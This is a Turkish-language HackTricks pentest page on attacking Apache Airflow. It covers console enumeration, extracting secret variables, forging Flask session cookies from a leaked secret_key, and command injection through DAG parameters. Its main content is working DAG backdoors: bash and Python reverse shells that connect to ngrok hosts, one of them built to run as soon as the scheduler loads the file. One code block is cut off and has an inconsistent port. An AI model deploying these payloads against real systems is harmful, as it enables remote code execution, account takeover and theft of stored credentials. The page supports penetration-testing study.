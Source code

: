 # Apache Airflow Güvenliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Temel Bilgiler

[**Apache Airflow**](https://airflow.apache.org), **veri boru hatlarını veya iş akışlarını düzenlemek ve zamanlamak için bir platform** olarak hizmet vermektedir. Veri boru hatları bağlamında "orchestrasyon" terimi, çeşitli kaynaklardan gelen karmaşık veri iş akışlarını düzenleme, koordine etme ve yönetme sürecini ifade eder. Bu düzenlenmiş veri boru hatlarının temel amacı, işlenmiş ve tüketilebilir veri setleri sağlamaktır. Bu veri setleri, iş zekası araçları, veri bilimi ve makine öğrenimi modelleri gibi birçok uygulama tarafından yaygın olarak kullanılmaktadır ve bunlar büyük veri uygulamalarının işleyişi için temeldir.

Temelde, Apache Airflow, bir şey (olay, cron) **gerçekleştiğinde kodun yürütülmesini zamanlamanıza** olanak tanır.

### Yerel Laboratuvar

#### Docker-Compose

Tam bir apache airflow docker ortamı başlatmak için [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) adresinden **docker-compose yapılandırma dosyasını** kullanabilirsiniz. (Eğer MacOS kullanıyorsanız, docker VM'ye en az 6GB RAM vermeyi unutmayın).

#### Minikube

**Apache Airflow'u çalıştırmanın** kolay bir yolu, **minikube ile çalıştırmaktır**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Yapılandırması

Airflow, yapılandırmasında **hassas bilgileri** saklayabilir veya zayıf yapılandırmalar bulabilirsiniz:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow'a saldırmaya başlamadan önce **izinlerin nasıl çalıştığını** anlamalısınız:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Saldırılar

#### Web Konsolu Sayım

Eğer **web konsoluna erişiminiz** varsa, aşağıdaki bilgilerden bazılarına veya hepsine erişim sağlayabilirsiniz:

* **Değişkenler** (Özel hassas bilgiler burada saklanabilir)
* **Bağlantılar** (Özel hassas bilgiler burada saklanabilir)
* `http://<airflow>/connection/list/` adresinden erişin
* [**Yapılandırma**](./#airflow-configuration) (Hassas bilgiler, örneğin **`secret_key`** ve şifreler burada saklanabilir)
* **kullanıcılar & roller** listesini görüntüleyin
* **Her DAG'ın kodu** (ilginç bilgiler içerebilir)

#### Değişken Değerlerini Alma

Değişkenler Airflow'da saklanabilir, böylece **DAG'lar** değerlerine **erişebilir**. Bu, diğer platformların gizli bilgilerine benzer. Eğer **yeterli izinleriniz** varsa, bunlara `http://<airflow>/variable/list/` adresinde GUI üzerinden erişebilirsiniz.\
Airflow varsayılan olarak değişkenin değerini GUI'de gösterir, ancak [**bu**](https://marclamberti.com/blog/variables-with-apache-airflow/) kaynağa göre, **değerleri** **yıldız** olarak görünecek şekilde ayarlamak mümkündür.

![](<../../.gitbook/assets/image (164).png>)

Ancak, bu **değerler** hala **CLI** üzerinden (DB erişiminiz olmalı), **rastgele DAG** çalıştırarak, **API** ile değişkenler uç noktasına erişerek (API'nin etkinleştirilmesi gerekir) ve **hatta GUI'nin kendisiyle** **alınabilir!**\
GUI'den bu değerlere erişmek için sadece **erişmek istediğiniz değişkenleri** seçin ve **Eylemler -> Dışa Aktar** seçeneğine tıklayın.\
Başka bir yol, **gizli değere** ulaşmak için **arama filtrelemesi** kullanarak **bruteforce** yapmaktır:

![](<../../.gitbook/assets/image (152).png>)

#### Yetki Yükseltme

Eğer **`expose_config`** yapılandırması **True** olarak ayarlandıysa, **Kullanıcı** rolünden ve **üstü** **web'deki yapılandırmayı** **okuyabilir**. Bu yapılandırmada, **`secret_key`** görünür, bu da bu geçerli anahtara sahip herhangi bir kullanıcının **kendi imzalı çerezini oluşturup başka bir kullanıcı hesabını taklit edebileceği** anlamına gelir.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Arka Kapı (Airflow işçisinde RCE)

Eğer **DAG'ların kaydedildiği** yere **yazma erişiminiz** varsa, sadece **bir tane oluşturabilirsiniz** ve bu size bir **ters kabuk** gönderecektir.\
Bu ters kabuğun bir **airflow işçi konteyneri** içinde çalıştırılacağını unutmayın:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Arka Kapı (Airflow zamanlayıcısında RCE)

Eğer bir şeyi **kodun kökünde çalıştırılacak şekilde ayarlarsanız**, bu yazının yazıldığı anda, DAG'ın klasörüne yerleştirildikten birkaç saniye sonra **zamanlayıcı tarafından çalıştırılacaktır**.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Oluşturma

Eğer **DAG kümesindeki bir makineyi ele geçirirseniz**, `dags/` klasöründe yeni **DAG'lar** oluşturabilirsiniz ve bunlar **DAG kümesindeki diğer makinelere kopyalanacaktır.**

#### DAG Kod Enjeksiyonu

GUI'den bir DAG çalıştırdığınızda ona **argümanlar** **geçebilirsiniz.**\
Bu nedenle, eğer DAG düzgün kodlanmamışsa **Komut Enjeksiyonuna karşı savunmasız** olabilir.\
Bu, bu CVE'de olan bir durumdur: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG'lerde komut enjeksiyonları aramaya başlamak için bilmeniz gereken tek şey**, **parametrelerin** **`dag_run.conf.get("param_name")`** kodu ile **erişildiğidir.**

Ayrıca, aynı zafiyet **değişkenlerle** de meydana gelebilir (yeterli ayrıcalıklara sahip olduğunuzda GUI'de **değişkenlerin değerini kontrol edebilirsiniz**). Değişkenler **şu şekilde erişilir:**
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Eğer örneğin bir bash komutu içinde kullanılırlarsa, bir komut enjeksiyonu gerçekleştirebilirsiniz.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
